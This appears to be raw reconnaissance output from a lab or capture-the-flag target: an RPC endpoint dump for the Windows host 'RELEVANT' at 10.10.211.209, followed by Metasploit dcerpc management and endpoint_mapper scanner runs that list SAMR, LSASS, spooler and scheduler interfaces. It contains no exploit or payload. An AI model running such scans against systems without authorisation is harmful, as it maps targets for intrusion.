ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : C36BE077-E14B-4FE9-8ABC-E856EF4F048B v1.0 Proxy Manager client server endpoint
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : 2E6035B2-E8F1-41A7-A044-656B439C4C34 v1.0 Proxy Manager provider server endpoint
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: iphlpsvc.dll
UUID : 552D076A-CB29-4E44-8B6A-D15E59E2C0AF v1.0 IP Transition Configuration endpoint
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : 3A9EF155-691D-4449-8D05-09AD57031823 v1.0
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol
Provider: schedsvc.dll
UUID : 86D35949-83C9-4044-B424-DB363231FD0C v1.0
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : 33D84484-3626-47EE-8C6F-E7E98B113BE1 v2.0
Bindings:
ncalrpc:[LRPC-6cdb557a8eb4025087]
ncalrpc:[ubpmtaskhostchannel]
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol
Provider: taskcomp.dll
UUID : 378E52B0-C0A9-11CF-822D-00AA0051E40F v1.0
Bindings:
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol
Provider: taskcomp.dll
UUID : 1FF70682-0A51-30E8-076D-740BE8CEE98B v1.0
Bindings:
ncacn_np:\\RELEVANT[\PIPE\atsvc]
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: N/A
UUID : 29770A8F-829B-4158-90A2-78CD488501F7 v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49666]
ncacn_np:\\RELEVANT[\pipe\SessEnvPublicRpc]
ncalrpc:[SessEnvPrivateRpc]
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: schedsvc.dll
UUID : 0A74EF1C-41A4-4E06-83AE-DC74FB1CDD53 v1.0
Bindings:
ncalrpc:[DeviceSetupManager]
ncalrpc:[senssvc]
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: certprop.dll
UUID : 30B044A5-A225-43F0-B3A4-E060DF91F9C1 v1.0
Bindings:
ncalrpc:[LRPC-4bea3e1d172efa7a01]
ncalrpc:[IUserProfile2]
ncalrpc:[OLE04105744772CBD3658A8B4B39FD4]
Protocol: N/A
Provider: gpsvc.dll
UUID : 2EB08E3E-639F-4FBA-97B1-14F878961076 v1.0 Group Policy RPC Interface
Bindings:
ncalrpc:[LRPC-7b4055ac0b4323350f]
Protocol: N/A
Provider: N/A
UUID : 7F1343FE-50A9-4927-A778-0C5859517BAC v1.0 DfsDs service
Bindings:
ncacn_np:\\RELEVANT[\PIPE\wkssvc]
ncalrpc:[DNSResolver]
ncalrpc:[nlaapi]
ncalrpc:[nlaplg]
Protocol: N/A
Provider: N/A
UUID : EB081A0D-10EE-478A-A1DD-50995283E7A8 v3.0 Witness Client Test Interface
Bindings:
ncalrpc:[DNSResolver]
ncalrpc:[nlaapi]
ncalrpc:[nlaplg]
Protocol: N/A
Provider: N/A
UUID : F2C9B409-C1C9-4100-8639-D8AB1486694A v1.0 Witness Client Upcall Server
Bindings:
ncalrpc:[DNSResolver]
ncalrpc:[nlaapi]
ncalrpc:[nlaplg]
Protocol: N/A
Provider: N/A
UUID : 7AEB6705-3AE6-471A-882D-F39C109EDC12 v1.0
Bindings:
ncalrpc:[LRPC-478092532139d99af7]
Protocol: N/A
Provider: N/A
UUID : E7F76134-9EF5-4949-A2D6-3368CC0988F3 v1.0
Bindings:
ncalrpc:[LRPC-478092532139d99af7]
Protocol: N/A
Provider: N/A
UUID : B3781086-6A54-489B-91C8-51D067172AB7 v1.0
Bindings:
ncalrpc:[LRPC-478092532139d99af7]
Protocol: N/A
Provider: N/A
UUID : B37F900A-EAE4-4304-A2AB-12BB668C0188 v1.0
Bindings:
ncalrpc:[LRPC-478092532139d99af7]
Protocol: N/A
Provider: N/A
UUID : ABFB6CA3-0C5E-4734-9285-0AEE72FE8D1C v1.0
Bindings:
ncalrpc:[LRPC-478092532139d99af7]
Protocol: [MS-SAMR]: Security Account Manager (SAM) Remote Protocol
Provider: samsrv.dll
UUID : 12345778-1234-ABCD-EF00-0123456789AC v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49672]
ncalrpc:[samss lpc]
ncalrpc:[SidKey Local End Point]
ncalrpc:[protected_storage]
ncalrpc:[lsasspirpc]
ncalrpc:[lsapolicylookup]
ncalrpc:[LSA_EAS_ENDPOINT]
ncalrpc:[LSA_IDPEXT_ENDPOINT]
ncalrpc:[lsacap]
ncalrpc:[LSARPC_ENDPOINT]
ncalrpc:[securityevent]
ncalrpc:[audit]
ncacn_np:\\RELEVANT[\pipe\lsass]
Protocol: N/A
Provider: N/A
UUID : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
Bindings:
ncalrpc:[samss lpc]
ncalrpc:[SidKey Local End Point]
ncalrpc:[protected_storage]
ncalrpc:[lsasspirpc]
ncalrpc:[lsapolicylookup]
ncalrpc:[LSA_EAS_ENDPOINT]
ncalrpc:[LSA_IDPEXT_ENDPOINT]
ncalrpc:[lsacap]
ncalrpc:[LSARPC_ENDPOINT]
ncalrpc:[securityevent]
ncalrpc:[audit]
ncacn_np:\\RELEVANT[\pipe\lsass]
Protocol: N/A
Provider: N/A
UUID : 8FB74744-B2FF-4C00-BE0D-9EF9A191FE1B v1.0 Ngc Pop Key Service
Bindings:
ncalrpc:[samss lpc]
ncalrpc:[SidKey Local End Point]
ncalrpc:[protected_storage]
ncalrpc:[lsasspirpc]
ncalrpc:[lsapolicylookup]
ncalrpc:[LSA_EAS_ENDPOINT]
ncalrpc:[LSA_IDPEXT_ENDPOINT]
ncalrpc:[lsacap]
ncalrpc:[LSARPC_ENDPOINT]
ncalrpc:[securityevent]
ncalrpc:[audit]
ncacn_np:\\RELEVANT[\pipe\lsass]
Protocol: N/A
Provider: N/A
UUID : B25A52BF-E5DD-4F4A-AEA6-8CA7272A0E86 v2.0 KeyIso
Bindings:
ncalrpc:[samss lpc]
ncalrpc:[SidKey Local End Point]
ncalrpc:[protected_storage]
ncalrpc:[lsasspirpc]
ncalrpc:[lsapolicylookup]
ncalrpc:[LSA_EAS_ENDPOINT]
ncalrpc:[LSA_IDPEXT_ENDPOINT]
ncalrpc:[lsacap]
ncalrpc:[LSARPC_ENDPOINT]
ncalrpc:[securityevent]
ncalrpc:[audit]
ncacn_np:\\RELEVANT[\pipe\lsass]
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Provider: spoolsv.exe
UUID : 76F03F96-CDFD-44FC-A22C-64950A001209 v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49668]
ncalrpc:[LRPC-d0f21c1175de0542b5]
Protocol: N/A
Provider: spoolsv.exe
UUID : 4A452661-8290-4B36-8FBE-7F4093A94978 v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49668]
ncalrpc:[LRPC-d0f21c1175de0542b5]
Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol
Provider: spoolsv.exe
UUID : AE33069B-A2A8-46EE-A235-DDFD339BE281 v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49668]
ncalrpc:[LRPC-d0f21c1175de0542b5]
Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol
Provider: spoolsv.exe
UUID : 0B6EDBFA-4A24-4FC6-8A23-942B1ECA65D1 v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49668]
ncalrpc:[LRPC-d0f21c1175de0542b5]
Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID : 12345678-1234-ABCD-EF00-0123456789AB v1.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49668]
ncalrpc:[LRPC-d0f21c1175de0542b5]
Protocol: N/A
Provider: N/A
UUID : 1A0D010F-1C33-432C-B0F5-8CF4E8053099 v1.0 IdSegSrv service
Bindings:
ncalrpc:[LRPC-f947455748b1803815]
Protocol: N/A
Provider: srvsvc.dll
UUID : 98716D03-89AC-44C7-BB8C-285824E51C4A v1.0 XactSrv service
Bindings:
ncalrpc:[LRPC-f947455748b1803815]
Protocol: N/A
Provider: sppsvc.exe
UUID : 9435CC56-1D9C-4924-AC7D-B60A2C3520E1 v1.0 SPPSVC Default RPC Interface
Bindings:
ncalrpc:[SPPCTransportEndpoint-00001]
Protocol: [MS-SCMR]: Service Control Manager Remote Protocol
Provider: services.exe
UUID : 367ABB81-9844-35F1-AD32-98F038001003 v2.0
Bindings:
ncacn_ip_tcp:10.10.211.209[49669]
Protocol: N/A
Provider: N/A
UUID : E38F5360-8572-473E-B696-1B46873BEEAB v1.0
Bindings:
ncalrpc:[LRPC-b6f087208df603729b]
Protocol: N/A
Provider: N/A
UUID : 4C9DBF19-D39E-4BB9-90EE-8F7179B20283 v1.0
Bindings:
ncalrpc:[LRPC-b6f087208df603729b]
Protocol: N/A
Provider: N/A
UUID : 64D1D045-F675-460B-8A94-570246B36DAB v1.0 CLIPSVC Default RPC Interface
Bindings:
ncalrpc:[ClipServiceTransportEndpoint-00001]
Protocol: N/A
Provider: N/A
UUID : F3F09FFD-FBCF-4291-944D-70AD6E0E73BB v1.0
Bindings:
ncalrpc:[LRPC-d04d3ab7acfaf122ab]
Protocol: [MS-CMPO]: MSDTC Connection Manager:
Provider: msdtcprx.dll
UUID : 906B0CE0-C70B-1067-B317-00DD010662DA v1.0
Bindings:
ncalrpc:[LRPC-8664ba18c68456cc07]
ncalrpc:[LRPC-8664ba18c68456cc07]
ncalrpc:[LRPC-8664ba18c68456cc07]
[*] Received 466 endpoints.
msf6 auxiliary(scanner/dcerpc/management) > run
[*] 10.10.211.209:135 - UUID e1af8308-5d1f-11c9-91a4-08002b14a0fa v3.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 0b0a6584-9e0f-11cf-a3cf-00805f68cb1b v1.1
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 1d55b526-c137-46c5-ab79-638f2a68e869 v1.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 64fe0b7f-9ef5-4553-a7db-9a1975777554 v1.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID e60c73e6-88f9-11cf-9af1-0020af6e72f4 v2.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 99fcfec4-5260-101b-bbcb-00aa0021347a v0.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID b9e79e60-3d52-11ce-aaa1-00006901293f v0.2
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 412f241e-c12a-11ce-abff-0020af6e7a17 v0.2
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 00000136-0000-0000-c000-000000000046 v0.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID c6f3ee72-ce7e-11d1-b71e-00c04fc3111a v1.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57 v0.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - UUID 000001a0-0000-0000-c000-000000000046 v0.0
[*] 10.10.211.209:135 - Remote Management Interface Error: DCERPC FAULT => nca_s_fault_ndr
[*] 10.10.211.209:135 - listening: 00000000
[*] 10.10.211.209:135 - killed: 00000005
[*] 10.10.211.209:135 - name: 00010000000000000100000000000000d3060000
[*] 10.10.211.209:135 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/dcerpc/endpoint_mapper) > run
[*] 10.10.211.209:135 - Connecting to the endpoint mapper service...
[*] 10.10.211.209:135 - d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 TCP (49664) 10.10.211.209
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (OLE55FB9B32B10E91E469EBF6C720FF) [Impl friendly name]
[*] 10.10.211.209:135 - c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 LRPC (LRPC-4467f277b099d6ed97) [Impl friendly name]
[*] 10.10.211.209:135 - 906b0ce0-c70b-1067-b317-00dd010662da v1.0 LRPC (LRPC-8664ba18c68456cc07)
[*] 10.10.211.209:135 - 906b0ce0-c70b-1067-b317-00dd010662da v1.0 LRPC (LRPC-8664ba18c68456cc07)
[*] 10.10.211.209:135 - 906b0ce0-c70b-1067-b317-00dd010662da v1.0 LRPC (LRPC-8664ba18c68456cc07)
[*] 10.10.211.209:135 - f3f09ffd-fbcf-4291-944d-70ad6e0e73bb v1.0 LRPC (LRPC-d04d3ab7acfaf122ab)
[*] 10.10.211.209:135 - 76f226c3-ec14-4325-8a99-6a46348418af v1.0 LRPC (WMsgKRpc064641)
[*] 10.10.211.209:135 - 64d1d045-f675-460b-8a94-570246b36dab v1.0 LRPC (ClipServiceTransportEndpoint-00001) [CLIPSVC Default RPC Interface]
[*] 10.10.211.209:135 - ae2dc901-312d-41df-8b79-e835e63db874 v1.0 LRPC (LRPC-db782a642915e54eca) [appxsvc]
[*] 10.10.211.209:135 - ff9fd3c4-742e-45e0-91dd-2f5bc632a1df v1.0 LRPC (LRPC-db782a642915e54eca) [appxsvc]
[*] 10.10.211.209:135 - 4c9dbf19-d39e-4bb9-90ee-8f7179b20283 v1.0 LRPC (LRPC-b6f087208df603729b)
[*] 10.10.211.209:135 - e38f5360-8572-473e-b696-1b46873beeab v1.0 LRPC (LRPC-b6f087208df603729b)
[*] 10.10.211.209:135 - 367abb81-9844-35f1-ad32-98f038001003 v2.0 TCP (49669) 10.10.211.209
[*] 10.10.211.209:135 - 9435cc56-1d9c-4924-ac7d-b60a2c3520e1 v1.0 LRPC (SPPCTransportEndpoint-00001) [SPPSVC Default RPC Interface]
[*] 10.10.211.209:135 - 98716d03-89ac-44c7-bb8c-285824e51c4a v1.0 LRPC (LRPC-f947455748b1803815) [XactSrv service]
[*] 10.10.211.209:135 - 1a0d010f-1c33-432c-b0f5-8cf4e8053099 v1.0 LRPC (LRPC-f947455748b1803815) [IdSegSrv service]
[*] 10.10.211.209:135 - 12345678-1234-abcd-ef00-0123456789ab v1.0 LRPC (LRPC-d0f21c1175de0542b5)
[*] 10.10.211.209:135 - 12345678-1234-abcd-ef00-0123456789ab v1.0 TCP (49668) 10.10.211.209
[*] 10.10.211.209:135 - 0b6edbfa-4a24-4fc6-8a23-942b1eca65d1 v1.0 LRPC (LRPC-d0f21c1175de0542b5)
[*] 10.10.211.209:135 - 0b6edbfa-4a24-4fc6-8a23-942b1eca65d1 v1.0 TCP (49668) 10.10.211.209
[*] 10.10.211.209:135 - ae33069b-a2a8-46ee-a235-ddfd339be281 v1.0 LRPC (LRPC-d0f21c1175de0542b5)
[*] 10.10.211.209:135 - ae33069b-a2a8-46ee-a235-ddfd339be281 v1.0 TCP (49668) 10.10.211.209
[*] 10.10.211.209:135 - 4a452661-8290-4b36-8fbe-7f4093a94978 v1.0 LRPC (LRPC-d0f21c1175de0542b5)
[*] 10.10.211.209:135 - 4a452661-8290-4b36-8fbe-7f4093a94978 v1.0 TCP (49668) 10.10.211.209
[*] 10.10.211.209:135 - 76f03f96-cdfd-44fc-a22c-64950a001209 v1.0 LRPC (LRPC-d0f21c1175de0542b5)
[*] 10.10.211.209:135 - 76f03f96-cdfd-44fc-a22c-64950a001209 v1.0 TCP (49668) 10.10.211.209
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 PIPE (\pipe\lsass) \\RELEVANT [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (audit) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (securityevent) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (LSARPC_ENDPOINT) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (lsacap) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (LSA_IDPEXT_ENDPOINT) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (LSA_EAS_ENDPOINT) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (lsapolicylookup) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (lsasspirpc) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (protected_storage) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (SidKey Local End Point) [KeyIso]
[*] 10.10.211.209:135 - b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 LRPC (samss lpc) [KeyIso]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 PIPE (\pipe\lsass) \\RELEVANT [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (audit) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (securityevent) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (LSARPC_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (lsacap) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (LSA_IDPEXT_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (LSA_EAS_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (lsapolicylookup) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (lsasspirpc) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (protected_storage) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (SidKey Local End Point) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 LRPC (samss lpc) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 PIPE (\pipe\lsass) \\RELEVANT [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (audit) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (securityevent) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (LSARPC_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (lsacap) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (LSA_IDPEXT_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (LSA_EAS_ENDPOINT) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (lsapolicylookup) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (lsasspirpc) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (protected_storage) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (SidKey Local End Point) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 LRPC (samss lpc) [Ngc Pop Key Service]
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 PIPE (\pipe\lsass) \\RELEVANT
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (audit)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (securityevent)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (LSARPC_ENDPOINT)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (lsacap)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (LSA_IDPEXT_ENDPOINT)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (LSA_EAS_ENDPOINT)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (lsapolicylookup)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (lsasspirpc)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (protected_storage)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (SidKey Local End Point)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 LRPC (samss lpc)
[*] 10.10.211.209:135 - 12345778-1234-abcd-ef00-0123456789ac v1.0 TCP (49672) 10.10.211.209
[*] 10.10.211.209:135 - abfb6ca3-0c5e-4734-9285-0aee72fe8d1c v1.0 LRPC (LRPC-478092532139d99af7)
[*] 10.10.211.209:135 - b37f900a-eae4-4304-a2ab-12bb668c0188 v1.0 LRPC (LRPC-478092532139d99af7)
[*] 10.10.211.209:135 - b3781086-6a54-489b-91c8-51d067172ab7 v1.0 LRPC (LRPC-478092532139d99af7)
